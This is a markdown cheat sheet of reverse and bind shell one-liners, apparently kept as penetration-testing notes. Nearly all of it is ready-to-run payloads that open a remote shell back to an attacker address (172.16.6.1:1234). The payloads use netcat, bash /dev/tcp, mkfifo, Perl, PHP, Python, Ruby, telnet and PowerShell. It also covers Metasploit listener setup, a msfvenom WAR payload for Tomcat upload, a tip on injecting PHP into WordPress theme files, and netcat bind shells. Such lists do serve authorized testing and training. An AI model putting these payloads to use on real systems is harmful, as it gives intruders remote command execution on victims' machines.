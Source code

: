 ### Reverse Shells
#### Listensers
### Top Resource

- https://www.revshells.com/

```
nc -nlvp 1234
```
- Always set up a netcat listener before executing a bash reverse shell

- You can also use multi handler from metasploit to catch incoming reverse shells
```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 1234
run
```
#### Netcat Reverse Shell
```
nc 172.16.6.1 1234 -e /bin/sh
```
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Basic bash reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```
- Another bash reverse shell

#### Perl Reverse Shell
```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP Reverse Shell
```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application
```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Troubleshooting lessons
````
which python
which python3
/usr/bin/python
/usr/bin/python3
````
- Try the absolute paths when `python3` or `python` are not working to trigger your reverse shell
- Standard python reverse shell

#### Ruby Reverse Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Linux ruby reverse shell
```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Windows ruby reverse shell

#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
```
msfconsole
use exploit /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

#### Reverse shell over the Telnet Protocol
```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh
## Powershell
````
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
````

### Bind Shells
#### Netcat Bind Shell
```
nc -nlvp 1234 -e /bin/sh
```
- This is executed on the target box and waits for an incoming connection
```
nc [target box ip] 1234
```
- This is executed on your attack box to connect to the listener on the target





